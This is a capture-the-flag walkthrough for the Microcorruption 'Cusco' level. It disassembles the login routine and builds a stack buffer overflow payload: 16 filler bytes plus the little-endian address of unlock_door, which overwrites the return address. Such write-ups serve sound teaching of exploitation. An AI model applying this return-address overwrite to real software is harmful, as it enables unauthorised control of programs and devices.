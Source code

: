 # Microcorruption - Cusco
Author: [Kuldeep Singh Chouhan](https://github.com/kuldeep-singh-chouhan)

Challenge Page: [Microcorruption](https://microcorruption.com/)

## Walkthrough
This level is different from previous ones. Let's  start looking at the `main` function.
```4438 <main>
4438:  b012 0045      call	#0x4500 <login>
```
`main` directs to `login`
```4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	#0x4532 <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	#0x4536 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```
We can't find any security checks as such. Again the password is atmost of 16 digits. We can observe that `sp` points to the next address of that of last digit of password. When the `login` returns `sp` is returned. So, if we can deliberately put address of `unlock_door` after the password, door might get unlocked. But they need to placed according to [little endian format](https://www.geeksforgeeks.org/little-and-big-endian-mystery/).
Let the 16 digits be letter `i` and its HEX form is `69` so the password becomes `69696969696969696969696969696969`. But we also need to add `0x4446` at the end of this string in the little endian format. So final passsword will be `696969696969696969696969696969694644`.

This is it !!! We got our password.


## Password
`696969696969696969696969696969694644` in HEX.
